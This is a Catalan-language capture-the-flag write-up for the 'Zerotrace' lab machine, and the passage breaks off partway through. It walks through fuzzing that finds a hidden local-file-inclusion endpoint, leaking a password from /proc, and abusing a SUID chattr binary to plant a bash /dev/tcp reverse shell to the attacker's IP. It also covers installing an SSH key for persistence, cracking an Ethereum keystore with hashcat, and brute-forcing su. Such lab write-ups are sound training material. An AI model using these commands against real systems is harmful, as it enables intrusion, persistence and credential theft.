

En aquest writeup es descriu la resolució de la màquina **Zerotrace** creada per [suraxddq](https://byte-mind.net/). És el primer writeup del meu blog que no pertany a una màquina creada per mi. Espero que us serveixi d'ajuda.

## Taula de continguts

## Enumeració

### Nmap

Escanegem ràpidament tots els ports amb nmap.

```bash
nmap -p- -Pn -n -sS 192.168.1.187
```



Observem tres ports oberts: 22, 80 i 8000. Realitzem un escaneig més detallat per identificar els serveis, versions i possibles vectors d'atac utilitzant els scripts de nmap.

```bash
nmap -p22,80,8000 -sVC -Pn -n 192.168.1.187 -o nmap.txt
```



Podem observar que el sistema operatiu és un `Debian`, el port **22** correspon al servei `SSH` amb `OpenSSH`, el port **80** allotja un lloc web `http` amb `nginx` i el port **8000** sembla ser un servei `FTP` implementat amb `pyftpdlib`. Les versions són actuals i no presenten vulnerabilitats aparents.

### Enumeració manual

L'enumeració manual realitzada la resumeixo a continuació:

Accedeixo al lloc web, comprovo la programació on apareix un comentari de la plantilla utilitzada, descarreguem el lloc web complet i també descarreguem d'internet la plantilla utilitzada per a la creació del lloc. Li apliquem un diff als fitxers de la plantilla utilitzada amb els fitxers del lloc web descarregat de la màquina víctima, comprovem les diferències i no hi ha res important.

També vaig intentar accedir al servei FTP sense usuari i amb l'usuari `anonymous`, però no ho vaig aconseguir.

### Fuzzing

Primer vaig intentar trobar alguna cosa amb ffuf i gobuster, utilitzant el mateix diccionari.

```bash
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://192.168.1.187/ -x .pcap,.php,.txt,.zip,.db,.htm,.html,.phar,.db,.sql,.sql.gz,.sql.zip
```

Després de diversos intents sense èxit, vaig provar diferents tècniques com `HTTP Request smuggling`, vaig analitzar possibles vulnerabilitats en les versions dels serveis i vaig executar el comandament `strings` en l'arxiu OVA, la qual cosa em va permetre descobrir informació rellevant com els usuaris del sistema. Davant la falta de progrés, vaig decidir sol·licitar una pista a suraxddq.



Amb la pista "*Y si no lo ves... .*" em va ajudar a continuar. Busquem tots els fitxers i carpetes ocultes que comencen amb punt `.` utilitzant `ffuf`.

```bash
ffuf -u http://192.168.1.187/.FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -H "User-Agent: Mozilla/5.0" -fs 153 -t 40
```



Vam trobar la carpeta `/.admin`. Continuem amb el fuzzing dins d'aquesta carpeta.

```bash
gobuster dir -u http://192.168.1.187/.admin/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x .pcap,.php,.txt,.zip,.db,.htm,.html,.phar,.db,.sql,.sql.gz,.sql.zip
```



Vam trobar l'arxiu `/.admin/tool.php`. Com que és un arxiu PHP que no mostra cap contingut (0 caràcters), vam procedir a realitzar fuzzing de paràmetres tant POST com GET per descobrir possibles vectors d'entrada.

Fuzzing de paràmetres POST.

```bash
ffuf -u "http://192.168.1.187/.admin/tool.php" -X POST -d "FUZZ=/etc/passwd" -w /usr/share/wordlists/seclists/Discovery/Web-Content/burp-parameter-names.txt -fs 0
```



En no trobar resultats amb el fuzzing de paràmetres POST, vam procedir a realitzar el fuzzing de paràmetres GET.

```bash
ffuf -u "http://192.168.1.187/.admin/tool.php?FUZZ=/etc/passwd" -w /usr/share/wordlists/seclists/Discovery/Web-Content/burp-parameter-names.txt -fs 0
```



Vam trobar el paràmetre `file`. En accedir a la URL `/.admin/tool.php?file=/etc/passwd` podem veure el contingut de l'arxiu `/etc/passwd` que conté la llista d'usuaris del sistema.



Utilitzem una [wordlist per a LFI](https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/refs/heads/main/LFI-WordList-Linux) de DragonJAR i només podem obtenir els arxius `/etc/passwd` i `/etc/hosts`.

```bash
ffuf -u "http://192.168.1.187/.admin/tool.php?file=FUZZ" -w ./LFI-WordList-Linux -fs 0
```





Intentem accedir als arxius en el directori `/proc` de Linux, on podem veure els comandos executats pels serveis actius en `/proc/[PID]/cmdline`.

Primer preparem un llistat de 5000 PIDs.

```bash
seq 1 5000 > pids.txt
```

Utilitzem ffuf per descobrir quins PIDs ens permeten obtenir informació i guardem els resultats en l'arxiu `cmd-ffuf.txt`.

```bash
ffuf -u "http://192.168.1.187/.admin/tool.php?file=/proc/FUZZ/cmdline" -w pids.txt  -fs 0 -o cmd-ffuf.txt
```

Com que tenim totes les URLs trobades en un XML guardat en el fitxer cmd-ffuf.txt, l'utilitzem per fer una petició a totes les URLs amb informació i guardar-ho en un fitxer amb el següent script d'una línia.

```bash
jq -r '.results[].url' cmd-ffuf.txt | xargs -P4 -I {} sh -c 'echo "\n************* {}"; curl -s "{}" | tr "\0" " "'  > resultados.txt
```

Ara podem observar tots els comandos trobats en el servidor en el fitxer `resultados.txt`.



Vam trobar el comandament que inicia el servei `FTP` al port `8000`, on s'exposa la contrasenya utilitzada de l'usuari `J4ckie0x17`.

## Accés inicial amb J4ckie0x17

Amb la contrasenya trobada de `J4ckie0x17` podem accedir al servei FTP al port 8000, però no tenim permisos per pujar arxius en cap de les carpetes, cosa que ens impedeix crear un webshell. Provem la mateixa contrasenya en el servei SSH i efectivament funciona, aconseguint així l'accés inicial al servidor.

```bash
ssh J4ckie0x17@192.168.1.187
```



## Moviment lateral de J4ckie0x17 a shelldredd

Vam trobar diverses coses interessants amb l'usuari `J4ckie0x17`.

1. El binari `/usr/bin/chattr` té el bit SUID activat quan no és habitual, aquest binari serveix per modificar els atributs especials en sistemes de fitxer ext2/ext3/ext4.

```bash
find / -type f -perm -4000 2>/dev/null
```



2. Utilitzem `pspy` per monitoritzar els processos actius i trobem un que executa l'usuari `shelldredd` amb el `UID` 1003 molt sospitós.

```bash
wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy64s && chmod +x pspy64s && ./pspy64s
```



```raw
CMD: UID=1003  PID=1475  | /bin/sh -c /bin/bash /opt/.nobodyshouldreadthis/destiny
```

En examinar el binari `destiny`, sembla que podem modificar-lo i no conté cap script, per la qual cosa probablement aquest procés estigui mostrant un error. No obstant això, en intentar modificar-lo no podrem ja que té el flag d'inmutable dels atributs especials del sistema de fitxers EXT.

```bash
lsattr /opt/.nobodyshouldreadthis/destiny
```



Utilitzem el binari `chattr` amb permisos SUID per treure el flag d'inmutable.

```bash
chattr -i /opt/.nobodyshouldreadthis/destiny
```



Ara podem modificar l'arxiu `destiny`, afegint un shell invers que apunti a la nostra màquina atacant en el port 443.

```bash
echo 'bash -i >& /dev/tcp/192.168.1.181/443 0>&1' > /opt/.nobodyshouldreadthis/destiny
```

A la nostra màquina atacant iniciem un listener amb netcat.

```bash
nc -lvnp 443
```

Després d'esperar aproximadament un minut, rebem una shell inversa amb privilegis de l'usuari `shelldredd`.



## Moviment lateral de shelldredd a ll104567

Abans de continuar, instal·lem la nostra clau pública al directori `.ssh` de l'usuari `shelldredd` per facilitar l'accés mitjançant SSH i mantenir la persistència.

Utilitzem la nostra clau pública.

```bash
mkdir .ssh && echo "ssh-ed25519 AAAAC.....CxOr3 kali@kali" > ./.ssh/authorized_keys && chmod 600 ./.ssh/authorized_keys
```

Ara podem connectar-nos mitjançant SSH des del nostre host per obtenir una shell completa i mantenir la persistència.

```bash
ssh shelldredd@192.168.1.187
```

Vam trobar diverses coses interessants al servidor, tenim accés al home de l'usuari `ll104567` i observem tres fitxers interessants:

   - `guessme` executable vulnerable a atac de temporització en la condició `[[ $FTP_PASS == $CLEAN_PASS ]]`, sembla necessitar de més privilegis per a la seva execució.
   - `one` una llista de personatges que tenen a veure amb l'univers **One-Punch Man**, completament desconegut per a mi. Amb un missatge al principi que diu: `Why don't we join two universes and see who's the strongest?`.
   - `user.txt` la primera bandera del repte, però sense permisos de lectura.

També vam trobar una carpeta que sembla ser una wallet de crypto `/opt/cryptovault/ll104567` amb tres fitxers:

   - `notes.txt` on sembla haver-hi un missatge dirigit al nostre amic `ll104567`.
   - `secret` on hi ha un fitxer `json` que sembla ser la clau privada d'una cryptowallet.
   - `why.png` imatge de Donald Trump, està per tot arreu.

### Cracking Crypto Wallet

Des del nostre host, copiem els arxius del cryptovault de `ll104567` a la nostra màquina utilitzant `scp`, ja que tenim la nostra clau pública instal·lada.

```bash
scp -r shelldredd@192.168.1.187:/opt/cryptovault/ll104567 .
```



Seguint les tècniques descrites en l'anàlisi de vulnerabilitats en arxius keystore de wallets Ethereum, vam procedir a intentar crackejar la wallet.

[Análisis Sistemático de Vulnerabilidades en Archivos Keystore de Wallets Ethereum](https://www.researchgate.net/publication/337610456_Attainable_Hacks_on_Keystore_Files_in_Ethereum_Wallets-A_Systematic_Analysis)

Primer hem d'obtenir el hash del wallet utilitzant `ethereum2john`, que farem servir posteriorment per crackejar-lo.

```bash
ethereum2john secret
```



Guardem el `hash` en un fitxer.



Procedim a intentar crackejar-lo amb `hashcat`.

```bash
hashcat -m 15700 hash /usr/share/wordlists/rockyou.txt -w 4
```

Després d'un temps d'espera, hashcat descobreix la contrasenya `dragonballz` que es troba a la línia 3186 del diccionari rockyou.txt.

```bash
hashcat -m 15700 hash /usr/share/wordlists/rockyou.txt --show
```



### Contrasenya de ll104567 i diccionari

En aquest moment sabia que alguna cosa tenia a veure amb **Dragon Ball Z** i **One-Punch Man**, dos animes; el primer el coneixia, el segon no. Vaig estar creant diccionaris amb els personatges de tots dos animes i provant diverses combinacions. Fins i tot vaig visualitzar un vídeo de YouTube on apareixia Son Goku lluitant contra One-Punch Man, però no em va servir de res.

Al final només es necessitava combinar la contrasenya del wallet `dragonballz` amb el diccionari de personatges de l'arxiu `one` del directori home de l'usuari `ll104567`.

Al directori home de shelldredd creem un diccionari amb l'arxiu `/home/ll104567/one` afegint `dragonballz` al començament de cada línia.

```bash
sed 's/^/dragonballz/' ../ll104567/one > ~/diccionario.txt
```



Descarreguem l'eina `suForce` de d4t4s3c, eina molt útil per fer força bruta.

```bash
wget --no-check-certificate -q "https://raw.githubusercontent.com/d4t4s3c/suForce/refs/heads/main/suForce" && chmod +x suForce 
```

i la utilitzem amb el diccionari creat per intentar obtenir la contrasenya de l'usuari ll104567.

```bash
./suForce -u ll104567 -w ./diccionario.txt
```

